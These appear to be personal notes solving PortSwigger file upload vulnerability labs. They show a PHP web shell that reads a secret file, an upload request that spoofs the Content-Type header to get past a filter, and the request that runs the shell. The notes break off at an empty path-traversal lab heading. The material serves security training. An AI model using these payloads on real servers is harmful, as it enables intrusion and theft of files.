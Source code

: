 ```yaml
---
description: https://portswigger.net/web-security/file-upload
---
```


# File upload vulnerabilities

### Lab: Remote code execution via web shell upload

This lab contains a vulnerable image upload function. It doesn't perform any validation on the files users upload before storing them on the server's filesystem.

To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file /home/carlos/secret.

**My-account -> Login -> Upload Avatar**

```
data.php
***
<?php echo file_get_contents("/home/carlos/secret"); ?>
***
```

`GET /files/avatars/data.php HTTP/1.1`

### Lab: Web shell upload via Content-Type restriction bypass

This lab contains a vulnerable image upload function. It attempts to prevent users from uploading unexpected file types, but relies on checking user-controllable input to verify this.

To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file /home/carlos/secret.

**My-account -> Login -> Upload Avatar**

**Error ->**

Sorry, file type application/x-php is not allowed Only image/jpeg and image/png are allowed Sorry, there was an error uploading your file.

```
POST /my-account/avatar HTTP/1.1 -> Send to repeater
...
Content-Disposition: form-data; name="avatar"; filename="data.php"
Content-Type: image/jpeg

<?php echo file_get_contents("/home/carlos/secret"); ?>
```

`GET /files/avatars/data.php HTTP/1.1`

### Lab: Web shell upload via path traversal
